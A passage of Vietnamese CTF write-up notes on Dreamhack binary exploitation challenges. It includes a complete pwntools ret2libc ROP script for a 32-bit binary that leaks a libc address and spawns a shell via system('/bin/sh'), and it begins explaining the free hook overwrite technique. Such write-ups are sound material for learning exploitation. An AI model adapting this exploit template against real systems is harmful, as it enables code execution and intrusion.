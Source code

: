 ```
8 . basic_rop_x86
------

- cũng là 1 bài leak libc , tuy nhiên là 32 bit → những bài này cần chú ý đến libc , còn lại thì kh có vấn đề gì
- ta cũng có thể dùng hàm write để leak write got ( thiết lập arg để leak )
![image](https://hackmd.io/_uploads/rJ2XwHwVJl.png)

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./basic_rop_x86',checksec=False)
libc = ELF('./libc.so.6')
p = remote('host3.dreamhack.games', 23182)
#p = process()
payload = b'a'*72
payload += p32(exe.plt.puts)
payload += p32(exe.sym.main)
payload += p32(exe.got.read)
p.send(payload)
p.recvuntil(b'a'*64)
leak = u32(p.recv(4))
print("leak read",hex(leak))
libc.address = leak - libc.sym.read
print("libc address: ",hex(libc.address))
system = libc.sym.system
print(hex(system))
bin_sh = next(libc.search('/bin/sh\x00'))
print(hex(bin_sh))
payload = b'a'*72
payload += p32(system)
payload += p32(0x080483c2)
payload += p32(bin_sh)
p.send(payload)
p.interactive()
```

---------


9 . fho ( Free Hock overwrite ) 
-------

nhắc lại : kỹ thuật này : Trong C, các hàm chịu trách nhiệm phân bổ và giải phóng bộ nhớ động là malloc(), free(), và realloc(). Mỗi hàm được triển khai trong libc.so.

```
$ readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep -E "__libc_malloc|__libc_free|__libc_realloc"
   463: 00000000000970e0   923 FUNC    GLOBAL DEFAULT   13 __libc_malloc@@GLIBC_2.2.5
   710: 000000000009d100    33 FUNC    GLOBAL DEFAULT   13 __libc_reallocarray@@GLIBC_PRIVATE
  1619: 0000000000098ca0  1114 FUNC    GLOBAL DEFAULT   13 __libc_realloc@@GLIBC_2.2.5
  1889: 00000000000979c0  3633 FUNC    GLOBAL DEFAULT   13 __libc_free@@GLIBC_2.2.5
  1994: 000000000019a9d0   161 FUNC    GLOBAL DEFAULT   14 __libc_freeres@@GLIBC_2.2.5
```

ibc định nghĩa hook để tạo điều kiện gỡ lỗi các hàm này . Ví dụ  : hàm malloc() kiểm tra xem giá trị của _ malloc_hook có phải là NULL hay không . nếu đúng , nó sẽ thực thi hàm được trỏ tới bởi malloc  _hook trước khi thực sự thực thi malloc() . Trong trường hợp này , đối số của malloc() dc truyền cho hàm hook , tương tự , free() và realloc() sử dụng các biến hook có tên __free_hook và __realloc_hook tương ứng

```